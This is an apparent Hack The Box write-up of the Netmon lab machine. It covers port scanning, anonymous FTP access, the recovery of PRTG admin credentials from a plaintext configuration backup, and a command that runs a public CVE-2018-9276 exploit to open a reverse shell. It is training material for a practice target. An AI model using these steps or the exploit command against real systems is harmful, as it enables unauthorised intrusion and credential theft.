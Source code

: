 ```yaml
---
title: HTB-Netmon
draft: false
tags:
  - htb
  - windows
  - ftp
  - prtg
  - easy
---
```

## Information Gathering

### Rustscan

Rustscan found several ports open but main ones seemed to be **FTP**,**HTTP**, and **SMB**.

```bash
┌──(yoon㉿kali)-[~/Documents/htb/netmon]
└─$ rustscan --addresses 10.10.10.152 --range 1-65535
.----. .-. .-. .----..---. .----. .---. .--. .-. .-.
| {} }| { } |{ {__ {_ _}{ {__ / ___} / {} \ | `| |
| .-. \| {_} |.-._} } | | .-._} }\ }/ /\ \| |\ |
`-' `-'`-----'`----' `-' `----' `---' `-' `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy :
: https://github.com/RustScan/RustScan :
--------------------------------------
🌍HACK THE PLANET🌍

<snip>
Host is up, received syn-ack (0.30s latency).
Scanned at 2024-03-26 01:08:27 EDT for 1s

PORT STATE SERVICE REASON
21/tcp open ftp syn-ack
80/tcp open http syn-ack
135/tcp open msrpc syn-ack
139/tcp open netbios-ssn syn-ack
445/tcp open microsoft-ds syn-ack
5985/tcp open wsman syn-ack
47001/tcp open winrm syn-ack
49664/tcp open unknown syn-ack
49665/tcp open unknown syn-ack
49666/tcp open unknown syn-ack
49667/tcp open unknown syn-ack
49668/tcp open unknown syn-ack
49669/tcp open unknown syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 2.12 seconds
```

## Enumeration

### SMB - TCP 445

  

Null login was not allowed for SMB:

  

![](https://i.imgur.com/rQvXpPR.png)


  

crackmapexec revealed device name: **netmon**

  

![](https://i.imgur.com/5pKgAQD.png)


  

### HTTP - TCP 80

  

Webpage had a login page for **PRTG Network Monitor** which is used to monitor network traffic:

  

![](https://i.imgur.com/5eWOOBK.png)



  

#### Directory Bruteforce

  

Webpage was using **.htm** extension, so I ran feroxbuster with **htm** extension:

  

`sudo feroxbuster -u http://10.10.10.152 -n -x htm -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -C 404`

  
  

![](https://i.imgur.com/UwUn6KH.png)


  

I see some paths that leads to *.htm but nothing looked very intriguing at the moment.

  

#### Default Creds

  

Searching about **PRTG Network Monitor** for a bit, I found out it is vulnerable to Authenticated RCE.

  

![](https://i.imgur.com/QHK34TL.png)



  
  

As the default credentials are **prtgadmin**:**prtgadmin**, I tried it but it didn't work:

  

![](https://i.imgur.com/h4A7IvI.png)


Since PRTG Network Monitor is vulnerable to Authenticated RCE, I would have to discover valid credentials somewhere.

### FTP - TCP 21

  

Luckily, anonymous login was allowed on FPT:

  

![](https://i.imgur.com/x8t1fJq.png)


  

Listing the files, I realized I am inside root directory of the system:

  

![](https://i.imgur.com/JJCEY6O.png)


  

To my surprisce, I was able to obtain user.txt from **Users/Public/Desktop**:

  

![](https://i.imgur.com/mFDrnMS.png)



  

This must have been my fastest user.txt ever I believe...

  

## Getting Creds for prtgadmin

  

According to [this reddit post](https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/), passwords are exposed in plain text in backup:

  

```
Automatically generated backups under:

C:\ProgramData\Paessler\PRTG Network Monitor\Configuration Auto-Backups\

Automatically generated temporary files that may exist:  

C:\ProgramData\Paessler\PRTG Network Monitor\PRTG Configuration.old

C:\ProgramData\Paessler\PRTG Network Monitor\PRTG Configuration.nul

If you run PRTG Network Monitor in cluster mode, please also remember to remove the configuration backups in the PRTG data path on every failover node.

Also remember that you may have additional copies of the PRTG Configuration.dat file for backup purposes. We recommend deleting all affected copies of this file.
```

  

Going to `/ProgramData/Paessler/PRTG Network Monitor`, I saw bunch of **PRTG Configuration** files:

  

![](https://i.imgur.com/h7gHJKJ.png)


  

Downloading and examining **PRTG Configuration.old.bak**, I obtained potential credentials: **prtgadmin:PrTg@dmin2018**

I tired logging-in to the system with the found credentials but it didn't work. 

However, changing **2018** to **2019** it let me in:

  

![](https://i.imgur.com/XDfJO4Q.png)


  

Now using the exploit found from [this github](https://github.com/A1vinSmith/CVE-2018-9276), I can get a shell as the system:

  

`python exploit.py -i 10.10.10.152 -p 80 --lhost 10.10.14.17 --lport 1337 --user prtgadmin --password PrTg@dmin2019`

  

![](https://i.imgur.com/xM9ndXs.png)


  

![](https://i.imgur.com/EqLylDc.png)
